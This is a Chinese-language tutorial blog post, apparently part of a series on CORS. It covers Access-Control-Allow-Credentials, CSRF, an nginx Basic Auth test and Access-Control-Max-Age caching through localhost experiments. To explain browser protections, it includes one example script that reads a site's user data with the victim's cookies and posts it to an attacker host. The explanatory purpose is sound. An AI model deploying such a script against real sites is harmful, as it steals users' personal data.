

## Access-Control-Allow-Credentials

### 簡介

先看看 [fetch.spec.whatwg.org](https://fetch.spec.whatwg.org/#credentials) 針對 `Credentials` 的描述

```
Credentials are HTTP cookies, TLS client certificates, and authentication entries (for HTTP authentication).
```

再來看看 `authentication entries` 的描述

```
An authentication entry and a proxy-authentication entry are tuples of username, password, and realm, used for HTTP authentication and HTTP proxy authentication, and associated with one or more requests.

User agents should allow both to be cleared together with HTTP cookies and similar tracking functionality.
```

大致拆解一下情境

- HTTP cookies => 就是指 `cookie` Request Header
- TLS client certificates => 已超出 HTTP 的範疇，本篇文章不討論
- authentication entries => 可參考 [Nginx HTTP Basic Auth 小結](../http/http-authentication.md#nginx-http-basic-auth-小結)

### cookie

瀏覽器打開 http://localhost:5001/ ，F12 > Application > Cookies，先塞個 `hello=world` 進去


從 http://localhost:5000/ 的 F12 > Console 戳看看沒有加 `Access-Control-Allow-Credentials` Response Header 的 API Endpoint

```js
fetch("http://localhost:5001/access-control-allow-headers", {
  credentials: "include",
});
```

應該會看到以下錯誤


要注意的是，`cookie` 還是有被送出，Server 有收到 HTTP Request 並且回傳 HTTP Response，只是瀏覽器擋住 HTTP Response，不讓 JavaScript 讀取而已


如果瀏覽器不擋住 JavaScript 讀取 Response 的話，攻擊者就可以構造一個惡意的網站，竊取被害者（點開網站的人類）在 FaceBook 的個人資料，並且送到攻擊者架的 Server

```html
<script>
  // https://www.facebook.com/userInfo 這是假的 API EndPoint，只是舉例用
  fetch("https://www.facebook.com/userInfo", { credentials: "include" })
    .then((res) => res.text())
    .then((userInfo) =>
      fetch("https://attacker.website", { method: "POST", body: userInfo }),
    );
</script>
```

事實上，古早時期就發生過類似的漏洞，叫做 [XST (Cross Site Tracing)](../http/http-request-methods-2.md#xst-cross-site-tracing)

不過，以上漏洞要成立的話，除了 "瀏覽器不擋住 JavaScript 讀取 Response" 的前提，還需要

1. 目標網址（https://www.facebook.com/userInfo ）使用 cookie 驗證身分
2. `fetch` 到目標網址（https://www.facebook.com/userInfo ）須滿足 [Simple Request](../http/cross-origin-resource-sharing-1.md#simple-request)（不能發送 preflight request，否則在 preflight request 階段就會被擋下來）
3. 受害者的瀏覽器已登入 https://www.facebook.com
4. 受害者要點開攻擊者構造的惡意網站（這部分就要搭配釣魚攻擊、社交工程等等）

### CSRF 跟 Access-Control-Allow-Credentials 的關係

結論 => `CSRF` 是無法只透過 `Access-Control-Allow-Credentials` 來保護的喔！

- 若請求到 https://www.facebook.com/userInfo 不是 [Simple Request](../http/cross-origin-resource-sharing-1.md#simple-request)，則 Preflight Request 不設定 `Access-Control-Allow-Credentials`，就可以擋住 `credentials: include` 的 Actual Request 發送，反之（Simple Request + `Access-Control-Allow-Credentials: true`）則需要透過 `CSRF Token` 在 Server 端來過濾跨域請求
- 實務上，`CSRF` 很常出現在老舊網站的 `<form>` 表單
- `Access-Control-Allow-Credentials` 則是瀏覽器的安全機制，Request Header 包含 `cookie` 且 Response Header 沒設定 `Access-Control-Allow-Credentials` 的話，就禁止 JavaScript 讀取 Response

### authentication entries

測試流程稍微複雜一點，但大部分流程都跟 [Nginx HTTP Basic Auth](../http/http-authentication.md#nginx-http-basic-auth) 一樣

1. 本機安裝 nginx，windows 系統可參考上面的連結，Mac 可使用

```zsh
brew install nginx
brew services start nginx
```

2. 進到 `nginx.conf`，新增以下設定

```conf
server {
  # 統一在 server 層級加上 CORS header
  add_header Access-Control-Allow-Origin "http://localhost:5000";
  add_header Access-Control-Allow-Credentials "true";
  add_header Access-Control-Allow-Methods "GET, PUT, OPTIONS";

  location = / {
    # 處理 OPTIONS 請求
    if ($request_method = 'OPTIONS') {
      return 204;
    }

    ## Basic Auth
    auth_basic "Restricted Area";
    auth_basic_user_file htpasswd;

    # 不使用 return 是因為 return always 執行，即便 Basic Auth 沒通過
    # 不使用 root, index, try_files 是因為 nginx serve 靜態檔案會限制 request method（GET, HEAD...）
    # 故使用 proxy_pass，自己架一個後端來回傳自定義內容
    proxy_pass http://localhost:5001;
  }
}
```

3. 跟 `nginx.conf` 同一層資料夾，新增 htpasswd 檔案，可參考 [Nginx HTTP Basic Auth](../http/http-authentication.md#nginx-http-basic-auth)

4. `http5001Server` 新增以下區塊

```ts
// nginx basic auth proxy pass
if (req.url === "/") {
  res.setHeader("Content-Type", "text/plain");
  res.end("200 OK");
  return;
}
```

5. 重整 nginx

```
nginx -s reload # Windows
brew services restart nginx # Mac
```

6. 瀏覽器打開 http://localhost/ ，Mac 的話是 http://localhost:8080/ ，輸入帳密成功登入

7. 瀏覽器打開 http://localhost:5000/ ，F12 > Console 戳看看，`Authorization: Basic` 真的有被送出了！

```js
fetch("http://localhost:8080/", { credentials: "include" })
  .then((res) => res.text())
  .then((text) => console.log(text)); // 200 OK
```


8. 承上一步驟，改成用 PUT Method 戳看看，`Authorization: Basic` 也有成功送出～

```js
fetch("http://localhost:8080/", { method: "PUT", credentials: "include" })
  .then((res) => res.text())
  .then((text) => console.log(text)); // 200 OK
```


### 不共戴天

當 Server 設定 `Access-Control-Allow-Credentials: true` 的時候

- `Access-Control-Allow-Headers: *` 會被視為允許傳送 `*` 這個 Header
- `Access-Control-Allow-Methods: *` 會被視為允許傳送 `*` 這個 Method
- `Access-Control-Expose-Headers: *` 會被視為允許讀取 `*` 這個 Header
- `Access-Control-Allow-Origin: *` 會讓瀏覽器報錯

寫個測試案例

```ts
if (req.url === "/access-control-allow-credentials") {
  res.setHeader("access-control-allow-credentials", "true");
  res.setHeader("access-control-allow-methods", "*");
  res.setHeader("access-control-allow-origin", "*");
  res.setHeader("access-control-allow-headers", "*");
  res.setHeader("access-control-expose-headers", "*");
  if (req.method === "OPTIONS") {
    res.statusCode = 204;
    res.end();
    return;
  }
  res.statusCode = 200;
  res.end();
  return;
}
```

瀏覽器打開 http://localhost:5000/ ，F12 > Console 戳看看

```js
fetch("http://localhost:5001/access-control-allow-credentials", {
  credentials: "include",
});
```


調整 NodeJS HTTP Server

```ts
res.setHeader("access-control-allow-origin", "http://localhost:5000");
```

重新戳一次，成功

```js
fetch("http://localhost:5001/access-control-allow-credentials", {
  credentials: "include",
});
```

其他三種情況，影響都有限，因為幾乎不會有 Header 或是 Method 叫做 `*`

那為啥要有 "當 Server 設定 `Access-Control-Allow-Credentials: true` 的時候，`Access-Control-Allow-Origin: *` 會讓瀏覽器報錯" 這個設定呢？其實跟上面的段落有關係 [CSRF 跟 Access-Control-Allow-Credentials 的關係](#csrf-跟-access-control-allow-credentials-的關係)，簡單講就是為了防止 `CSRF`

## 跳過 Preflight Request? Access-Control-Max-Age 實際測試

先看看 [fetch.spec.whatwg.org](https://fetch.spec.whatwg.org/#http-access-control-max-age) 的描述

```
Indicates the number of seconds (5 by default) the information provided by the `Access-Control-Allow-Methods` and `Access-Control-Allow-Headers` headers can be cached.
```

我們在 `http5001Server` 新增以下區塊

```ts
if (req.url === "/access-control-max-age") {
  // 印出 req.method，確認瀏覽器真的有跳過 OPTIONS 請求
  console.log(req.method);
  if (req.method === "OPTIONS") {
    res.writeHead(204, {
      "access-control-allow-origin": "http://localhost:5000",
      "access-control-allow-methods": "PUT",
      "access-control-allow-headers": "authorization",
    });
    res.end();
    return;
  }
  res.writeHead(200, {
    "access-control-allow-origin": "http://localhost:5000",
    "access-control-allow-methods": "PUT",
    "access-control-allow-headers": "authorization",
  });
  res.end();
  return;
}
```

瀏覽器打開 http://localhost:5000/ ，F12 > Console 戳看看

```js
fetch("http://localhost:5001/access-control-max-age", { method: "PUT", headers: { Authorization: "Basic 123" } }).then(res =>
  fetch("http://localhost:5001/access-control-max-age", { method: "DELETE", headers: { Authorization: "Basic 123" } });
);
```

Server 印出的 log 如下，由於第二次是 DELETE Method，不在快取內，所以會觸發 Preflight Request

```
OPTIONS
PUT
OPTIONS
```

接著嘗試快取機制

```js
fetch("http://localhost:5001/access-control-max-age", { method: "PUT", headers: { Authorization: "Basic 123" } }).then(res =>
  fetch("http://localhost:5001/access-control-max-age", { method: "PUT", headers: { Authorization: "Basic 123" } });
);
```

Server 印出的 log 如下，由於第二次 HTTP Request 的 method 跟 header 都在快取，所以不會觸發 Preflight Request

```
OPTIONS
PUT
PUT
```

我們可以整理成 Sequence Diagram


## 小結

CORS 真的是一個很長的主題，本以為一篇可以搞定，結果寫到太長，所以就分兩篇了。另外，我覺得在段落的安排也很考驗技術，因為每個概念都是環環相扣的，像是 [CORS-safelisted request header & Access-Control-Allow-Headers](../http/cross-origin-resource-sharing-1.md#cors-safelisted-request-header--access-control-allow-headers) 就算是一組互補的概念，實在很難把所有概念都分開講。如果你覺得段落的安排不夠好，或是有什麼概念沒講清楚的，也歡迎讓我知道呦！

CORS 是我在剛接觸前端就遇到的問題，當時只知道怎麼解，就是叫後端去加 CORS Header，但我卻不懂 CORS 背後的目的是什麼，也沒有深入理解每個 `Access-Control-*` 的 Header。經過這次的研讀，我覺得又學到很多新的知識，本以為這是一個我已有基礎的概念，殊不知能學習的點還是很多呀，收穫滿滿～

讀完 CORS，有種醍醐灌頂，融會貫通的感覺，先前有透過 [Hitcon Zeroday](https://zeroday.hitcon.org/) 回報過 `CSRF`，現在搭配 `Access-Control-Allow-Credentials`，就比較能夠理解為什麼要這樣設計。我覺得從攻擊的角度，去理解怎麼防禦，真的會比較能夠理解整個設計理念。學了一點前端資安，再回來讀 HTTP，真的是又有不一樣的感受啊～

## 參考資料

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS/Errors
- https://developer.mozilla.org/en-US/docs/Glossary/CORS
- https://developer.mozilla.org/en-US/docs/Glossary/Preflight_request
- https://developer.mozilla.org/en-US/docs/Glossary/CORS-safelisted_request_header
- https://developer.mozilla.org/en-US/docs/Glossary/CORS-safelisted_response_header
- https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Allow-Origin
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Allow-Headers
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Allow-Methods
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Allow-Credentials
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Max-Age
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Expose-Headers
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Request-Method
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Request-Headers
